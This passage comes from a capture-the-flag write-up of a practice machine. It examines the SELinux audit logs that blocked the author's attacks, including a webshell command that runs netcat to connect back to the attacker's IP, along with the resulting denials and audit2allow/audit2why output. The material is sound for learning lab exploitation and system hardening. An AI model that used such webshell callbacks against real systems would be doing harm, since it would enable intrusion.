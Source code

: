 In all the logs, I can see the issue is with the `snmpd_t` role trying to access `admin_home_t`. If I pipe that log into `audit2allow`, it shows how to configure the system to not block this:

```

[root@pit audit]# cat audit.log | grep read | grep root.txt | tail -1 | audit2allow 

#============= snmpd_t ==============
allow snmpd_t admin_home_t:file read;

```

In this case, `snmpd_t` would need `file read` access to `admin_home_t`.

### Webshell

The reverse shell from the webshell was another thing that was blocked. In fact, any connection out to me was blocked. To demonstrate, I’l run `nc` over the webshell to just connect to my host:

```

oxdf@parrot$ curl -G --data-urlencode 'cmd=nc 10.10.14.7 443' http://dms-pit.htb/seeddms51x/data/1048576/29/1.php

```

It generates these logs:

```

type=AVC msg=audit(1632504453.554:5282): avc:  denied  { name_connect } for  pid=15554 comm="nc" dest=443 scontext=system_u:system_r:httpd_t:s0 tcontext=system_u:object_r:http_port_t:s0 tclass=tcp_socket permissive=0
type=SYSCALL msg=audit(1632504453.554:5282): arch=c000003e syscall=42 success=no exit=-13 a0=3 a1=5635357392c0 a2=10 a3=3 items=0 ppid=15428 pid=15554 auid=4294967295 uid=992 gid=988 euid=992 suid=992 fsuid=992 egid=988 sgid=988 fsgid=988 tty=(none) ses=4294967295 comm="nc" exe="/usr/bin/ncat" subj=system_u:system_r:httpd_t:s0 key=(null)ARCH=x86_64 SYSCALL=connect AUID="unset" UID="nginx" GID="nginx" EUID="nginx" SUID="nginx" FSUID="nginx" EGID="nginx" SGID="nginx" FSGID="nginx"
type=PROCTITLE msg=audit(1632504453.554:5282): proctitle=6E630031302E31302E31342E3700343433

```

I can feed that into `audit2why` to get more details about what’s going on:

```

[root@pit audit]# cat audit.log | grep 'comm="nc"' | tail -2 | audit2why
type=AVC msg=audit(1632504453.554:5282): avc:  denied  { name_connect } for  pid=15554 comm="nc" dest=443 scontext=system_u:system_r:httpd_t:s0 tcontext=system_u:object_r:http_port_t:s0 tclass=tcp_socket permissive=0

        Was caused by:
        One of the following booleans was set incorrectly.
        Description:
        Allow httpd to can network connect

        Allow access by executing:
        # setsebool -P httpd_can_network_connect 1
        Description:
        Allow httpd to graceful shutdown

        Allow access by executing:
        # setsebool -P httpd_graceful_shutdown 1
        Description:
        Allow httpd to can network relay

        Allow access by executing:
        # setsebool -P httpd_can_network_relay 1
```